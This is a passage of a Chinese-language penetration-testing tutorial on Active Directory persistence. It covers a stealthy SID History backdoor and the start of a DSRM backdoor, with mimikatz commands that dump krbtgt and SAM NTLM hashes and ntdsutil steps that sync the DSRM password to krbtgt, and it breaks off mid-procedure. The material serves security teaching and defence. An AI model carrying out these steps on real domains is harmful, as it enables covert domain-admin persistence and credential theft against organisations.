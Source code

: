 然后，我们的webadmin就具备权限了！

```cmd
dir \\192.168.3.21\c$
```

![截图](981cba1d3b773708f1247332c25d0ec7.png)

> 技术总结：
把域控管理员的SID加入到 其他某个 恶意的域账户的SID History中，然后，这个恶意的（我们自己创建的）域账户就可以域管理员权限访问域控了，不修改域账户一直存在。】
> 
> 该方法，最主要的是比较隐蔽， 修改完后，此时用户的组还是普通权限的组。和直接修改用户属性的方法还不一样。可以参考我们下面的图片进行比较。
>{: .prompt-tip}

![截图](7f6c32230230708d03405c1a7430c80f.png)

![截图](e8b56caf8b83bf30004c0c6ebfa40479.png)

## 0x05 基于机制账号启用-DSRM

DSRM（Diretcory Service Restore Mode，目录服务恢复模式）是windows域环境中域控制器的安全模式启动选项。域控制器的本地管理员账户也就是DSRM账户，DSRM密码是在DC创建时设置的，一般很少更改。DSRM的用途是：允许管理员在域环境出现故障时还原、修复、重建活动目录数据库。通过在DC上运行`ntdsutil`工具可以修改DSRM密码。

在域控中,DSRM账号可视为域控的本地管理员账号!!!

**攻击过程：**在DSRM账号可以登录域控的前提下，如果我们获得了域控的权限，在域控上`cmd`进入`ntdsutil`，将DSRM账号的密码进行修改（常同步为krbtgt的NTLM hash），之后在域内任何一台主机（包括域控本身）上通过修改后的hash，即可进行PTT实现远程访问控制.

~~需要在管理中心先把krbtgt用户设置密码永不过期和下次登陆时需修改，后面才能成功！~~

#### 利用

 首先获取`dsrm`及`krbtgt`的`NTLM hash`：（进入`mimikatz`）

```shell
privilege::debug
lsadump::lsa /patch /name:krbtgt
token::elevate
lsadump::sam
```

然后，打开`ntdsutil`这个软件：（在cmd中）

```cmd
ntdsutil
set DSRM password:
sync from domain account krbtgt
```

然后按`q`推出即可：

```shell
q(第1次)：退出DSRM密码设置模式
q(第2次)：退出ntdsutil
```

此时，我们还需要在powershell中设置支持我们远程进行登录：（值为2代表着支持远程登陆）
